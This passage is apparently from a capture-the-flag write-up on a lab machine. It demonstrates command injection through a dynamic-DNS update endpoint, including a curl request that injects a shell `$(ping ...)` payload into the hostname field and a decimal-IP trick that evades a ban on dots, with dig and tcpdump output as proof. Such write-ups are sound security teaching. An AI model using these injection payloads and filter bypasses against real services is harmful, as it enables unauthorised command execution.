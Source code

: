 

I chose `whoami` because it was more likely to work returning a single
word vs `id`. It seems to have worked. If the web process is running as
www-data, then `www-data.no-ip.htb` would resolve to my IP. It does:



    oxdf@parrot$ dig +short www-data.no-ip.htb @10.10.10.244
    10.10.14.8



That's proof of command injection.

#### ping

An easier check would be to try `ping`. The only challenge is that I
can't use `.`. That's easily bypassed knowing that an IP is just a
four-byte integer. It's standard to represent it as four ints 0-255
combined with `.`, but almost all systems will handle the int value as
well.
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=Change_IP_format('Dotted%20Decimal','Decimal')&input=MTAuMTAuMTQuOA)
has a Change IP Format recipe that works nicely here:

![](/img/image-20210613144052430.png)

Dropping that in, with `tcpdump` watching locally, I can `ping`:



    oxdf@parrot$ curl -G --data-urlencode 'hostname=$(ping -c 1 168431112).no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [nsupdate failed]



At `tcpdump`:



    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:41:19.902625 IP 10.10.10.244 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
    14:41:19.902652 IP 10.10.14.8 > 10.10.10.244: ICMP echo reply, id 1, seq 1, length 64
    14:41:19.929024 IP 10.10.10.244 > 10.10.14.8: ICMP echo request, id 2, seq 1, length 64
    14:41:19.929042 IP 10.10.14.8 > 10.10.10.244: ICMP echo reply, id 2, seq 1, length 64
